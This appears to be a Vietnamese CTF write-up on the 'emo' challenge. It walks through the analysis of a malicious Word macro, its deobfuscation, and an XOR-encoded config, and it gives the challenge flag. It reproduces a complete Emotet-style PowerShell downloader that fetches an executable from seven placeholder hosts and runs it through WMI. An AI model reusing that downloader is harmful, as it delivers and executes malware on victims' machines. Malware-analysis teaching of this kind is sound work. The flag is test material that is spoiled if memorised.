










# Challenge emo

## 1. Đầu vào challenge

Đầu vào challenge cho 1 file:

- `emo.doc`  (một dạng file `.doc` đời cũ)

---

## 2. Kiểm tra file có chứa VBA macro hay không

Dùng `olevba` để xem file có chứa VBA macro không:

```bash
python3 -m oletools.olevba emo.doc
```

### Kiến thức ngoài lề

**VBA macro** là một đoạn mã tự động hóa viết bằng **VBA** (*Visual Basic for Applications*), thường được nhúng trong các file Microsoft Office.

---

## 3. Điểm đáng chú ý ở đầu output

Ngay đoạn đầu của output có một phần cho thấy hàm `Document_Open()` sẽ tự chạy khi file được mở.



Có nghĩa:

- `Document_Open()` là hàm **tự động thực thi**
- trong hàm đó chỉ gọi tiếp một hàm khác là `X8twf_cydt6()`

Vì vậy, bước tiếp theo là đi vào phân tích hàm:

```text
X8twf_cydt6()
```

---

## 4. Phân tích `X8twf_cydt6()`

Trong hàm `X8twf_cydt6()` có một đoạn đáng chú ý:



Đoạn này cho thấy macro đang lấy dữ liệu từ **`StoryRanges`** của tài liệu Word.

### Ý nghĩa

Payload tấn công có thể được giấu **bên trong nội dung file Word**, chứ không chỉ nằm trong phần code VBA.

Đồng thời còn thấy sự xuất hiện của hàm:

```text
X4al3i4glox()
```



---

## 5. Nhận định về cách giấu payload

Nội dung độc hại trong file `.doc` đã được attacker obfuscate từ trước, rồi nhúng vào tài liệu Word.

Khi user mở file:

1. macro tự chạy
2. đọc chuỗi đã bị làm rối từ nội dung document
3. thực hiện deobfuscate
4. khôi phục payload thật
5. tiếp tục thực thi

Ngoài ra còn có thêm nhiều lớp obfuscation khác.



---

## 6. Cách macro khôi phục chuỗi thật

Macro không dùng nguyên chuỗi đọc được từ document, mà **cắt bỏ phần đầu** rồi mới xử lý tiếp.

Cần chú ý các dòng sau:



### Phân tích từng dòng

- `AWLDFu7C7y = Mid(AMUjF5h4uz, 1, 50)`
  - `AWLDFu7C7y` nhận **50 ký tự đầu** của chuỗi đầu vào

- `For i = 51 To Len(AMUjF5h4uz) Step 2`
  - bắt đầu từ ký tự thứ **51**
  - duyệt đến hết chuỗi
  - mỗi lần tăng **2**
  - Gợi ý phần sau chuỗi có thể bị **xen ký tự rác**

- `AWLDFu7C7y = AWLDFu7C7y & Mid(AMUjF5h4uz, i, 1)`
  - lấy thêm ký tự tại vị trí `i`
  - rồi ghép vào `AWLDFu7C7y`

- cuối cùng lặp lại cho tới hết chuỗi

---

## 7. Flow deobfuscation

Tiếp theo, cần nhìn rõ flow để deobfuscation và bỏ qua các lệnh khởi tạo biến rác.



### Flow tổng quát

```text
Mid(sss, 5, Len(sss))
(bỏ 4 ký tự đầu)

    |
    v

X4al3i4glox
(xóa marker `][(s)]w`)
    
    |
    v

I51m0kj196lpdcfHm
(hàm trung gian trả về chuỗi đã qua X4al3i4glox)
    
    |
    v

AWLDFu7C7y
(giữ 50 ký tự đầu, phần còn lại lấy cách 1 ký tự để khôi phục chuỗi thật)
```

---

## 8. Script deobfuscate

Từ flow trên, có thể viết script để deobfuscate lại payload.




Sau khi chạy, thu được một đoạn kết quả.




---

## 9. Decode phần Base64

Sau khi decode phần Base64, thu được đoạn script PowerShell sau:

```powershell
SV 0zX ([Type]"System.IO.DirectoryInfo")
Set TxySeo ([Type]"System.Net.ServicePointManager")
(Dir Variable:0Zx).Value::"CreateDirectory"($HOME + "\Jrbevk4\Ccwr_2h\")
$Bb28umo  = "Ale7g_8"
$Scusbkj  = $HOME + "\Jrbevk4\Ccwr_2h\" + $Bb28umo + ".exe"
$hbmskV2T = $HOME + "\Jrbevk4\Ccwr_2h\" + $Bb28umo + ".conf"

(Variable TxySeo).Value::"SecurityProtocol" = "Tls12"

$Odb3hf3 = New-Object Net.WebClient
$FN5ggmsH  = (182,187,229,146,231,177,151,149,166)
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

$Anbyt1y = @(
    "http://da-industrial.htb/js/9IdLP"
    "http://daprofesional.htb/data4/hWgWjTV"
    "https://dagranitegiare.htb/wp-admin/tV"
    "http://www.outspokenvisions.htb/wp-includes/aWoM"
    "http://mobsouk.htb/wp-includes/UY30R"
    "http://biglaughs.htb/smallpotatoes/Y"
    "https://ngllogistics.htb/adminer/W3mkB"
)
foreach ($url in $Anbyt1y) {
    try {
        $Odb3hf3.DownloadFile($url, $Scusbkj)

        If ((Get-Item $Scusbkj).Length -ge 45199) {

            $url.ToCharArray() | ForEach-Object {
                $FN5ggmsH += ([byte][char]$_ -bxor 0xdf)
            }
            $FN5ggmsH += (228)

            $b0Rje = [Type]"System.Convert"
            $b0Rje::"ToBase64String"($FN5ggmsH) | Out-File $hbmskV2T

            ([wmiclass]"win32_Process").Create($Scusbkj)

            break
        }
    }
    catch { }
}
```

---

## 10. Chức năng của script PowerShell

Script này có chức năng:

- download Emotet payload từ 7 C2 server
- nếu file tải về hợp lệ (≥ 45199 bytes) thì:
  - ghi config ra file `.conf`
  - thực thi payload ẩn qua WMI

---

## 11. Cần chú ý

Cần đặc biệt chú ý vào đoạn:

```powershell
$FN5ggmsH  = (182,187,229,146,231,177,151,149,166)
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)
```

và:

```powershell
$FN5ggmsH += ([byte][char]$_ -bxor 0xdf)
```

### Ý nghĩa

Từ đây có thể nhận ra:

- key XOR được dùng là **`0xDF`**
- script đã dùng key này để xử lý dữ liệu cấu hình

Vì vậy có thể dùng key đó để **decode ngược** mảng byte ban đầu.





---

## 12. Flag

```text
HTB{4n0th3R_d4Y_AnoThEr_pH1Sh}
```
